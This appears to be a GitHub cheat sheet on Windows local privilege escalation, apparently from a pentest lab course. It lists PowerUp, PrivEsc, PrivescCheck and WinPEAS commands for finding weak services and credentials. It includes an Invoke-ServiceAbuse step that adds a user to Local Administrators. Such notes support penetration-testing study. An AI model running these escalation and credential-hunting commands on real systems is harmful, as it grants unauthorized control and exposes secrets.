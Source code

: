## Local Privilege Escalation

  * [PowerUP](#powerup)
    + [Find Vulnerable Services](#find-vulnerable-services)
      - [Abuse Found Vulnerable Services](#abuse-found-vulnerable-services)
  * [PrivEsc](#privesc)
    + [Find Vulnerable Services](#find-vulnerable-services-1)
  * [PrivescCheck](#privesccheck)
  * [WinPEAS](#winpeas)

<small><i><a href='http://ecotrust-canada.github.io/markdown-toc/'>Table of contents generated with markdown-toc</a></i></small>


### PowerUP
---
```powershell
C:> . .\PowerUp.ps1
```
#### Find Vulnerable Services

- Run All Checks
```powershell
C:> Invoke-AllChecks
```
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
##### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```
This will make user member of the Admins group. Just need to relog session and that's it.

### PrivEsc
---
```powershell
C:> Invoke-PrivEsc
```
- Groups   : Groups of our interest when checking ACLs.
- Mode     : Mode to use - full or lhf (default).
- Extended : Switch enables lookups that may last for several minutes.
- 
#### Find Vulnerable Services
- Run All Checks
```powershell
C:> Invoke-PrivEsc
```
- Full Check for Groups
```powershell
C:> Invoke-Privesc -Groups 'Users,Everyone,"Authenticated Users"' -Mode full -Extended
```
### PrivescCheck
---
Syntax:
```powerview
Invoke-PrivescCheck [[-Report] <string>] [[-Format] {TXT | HTML | CSV | XML}] [-Extended] [-Experimental] [-Force] [-Audit] [-Silent]  [<CommonParameters>]
```
Usage:
```powershell
C:> . PrivescCheck.ps1
C:> Invoke-PrivescCheck
```
  
### WinPEAS
---
WinPEAS is a binary to enumerate possible paths to escalate privileges locally
```powershell
        quiet                Do not print banner
        notcolor             Don't use ansi colors (all white)
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information`
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search files that can contains credentials
        eventsinfo           Display interesting events information
        wait                 Wait for user input between checks
        debug                Display debugging information - memory usage, method execution time
        log[=logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

        Additional checks (slower):
        -lolbas              Run additional LOLBAS check
        -linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
```

